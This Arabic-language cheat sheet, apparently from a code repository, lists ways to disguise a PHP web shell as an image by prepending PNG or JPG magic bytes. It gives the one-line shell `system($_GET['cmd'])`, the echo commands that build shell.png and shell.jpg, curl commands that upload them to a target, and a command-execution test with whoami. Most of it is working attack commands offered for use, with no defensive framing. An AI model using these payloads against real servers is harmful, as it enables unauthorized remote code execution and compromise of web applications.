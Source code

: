 
## جميع المحاولات الممكنة لتغيير السيجنتشر للملف

فيما يلي قائمة شاملة بجميع التقنيات الممكنة لتغيير البايتات السحرية، مقسمة إلى فئات مع شرح كل تقنية، كيف تعمل، متى تُستخدم، والأوامر المرتبطة بها.

```php
<?php system($_GET['cmd']); ?>
```

### 1. إضافة بايتات سحرية لـ PNG
**شرح**: إضافة تسلسل البايتات السحرية لملف PNG (`\x89PNG\r\n\x1a\n\0\0\0\rIHDR`) في بداية ملف PHP ليبدو كصورة PNG.
**كيف يعمل**: الخادم يفحص البايتات الأولى ويقبل الملف كـ PNG، لكنه قد يُنفذه كـ PHP إذا كان الامتداد .php أو بسبب إعدادات خاطئة.
**متى يُستخدم؟**: عندما يتحقق الخادم من البايتات السحرية للصور ويسمح بامتدادات مثل .png.
**المحاولات**:
- إنشاء ملف shell.png يبدأ بـ `\x89PNG\r\n\x1a\n\0\0\0\rIHDR` متبوعًا بشيفرة PHP.
**الأوامر**:
- إنشاء الملف:
  ```bash
  echo -ne '\x89PNG\r\n\x1a\n\0\0\0\rIHDR' > shell.png
  echo '<?php system($_GET["cmd"]); ?>' >> shell.png
  ```
- تحميل الملف:
  ```bash
  curl -X POST -H "Content-Type: image/png" -F "file=@shell.png" http://<target>/upload
  ```
- اختبار التنفيذ:
  ```bash
  curl 'http://<target>/Uploads/shell.png?cmd=whoami'
  ```

### 2. إضافة بايتات سحرية لـ JPG
**شرح**: إضافة تسلسل البايتات السحرية لملف JPG (`\xff\xd8\xff`) في بداية ملف PHP ليبدو كصورة JPG.
**كيف يعمل**: الخادم يقبل الملف كـ JPG بناءً على البايتات السحرية، لكنه قد يُنفذه كـ PHP إذا كان الامتداد مناسبًا.
**متى يُستخدم؟**: عندما يتحقق الخادم من البايتات السحرية لـ JPG ويسمح بامتدادات مثل .jpg.
**المحاولات**:
- إنشاء ملف shell.jpg يبدأ بـ `\xff\xd8\xff` متبوعًا بشيفرة PHP.
**الأوامر**:
- إنشاء الملف:
  ```bash
  echo -ne '\xff\xd8\xff' > shell.jpg
  echo '<?php system($_GET["cmd"]); ?>' >> shell.jpg
  ```
- تحميل الملف:
  ```bash
  curl -X POST -H "Content-Type: image/jpeg" -F "file=@shell.jpg" http://<target>/upload
  ```
- اختبار التنفيذ:
  ```bash
  curl 'http://<target>/Uploads/shell.jpg?cmd=whoami'
  ```
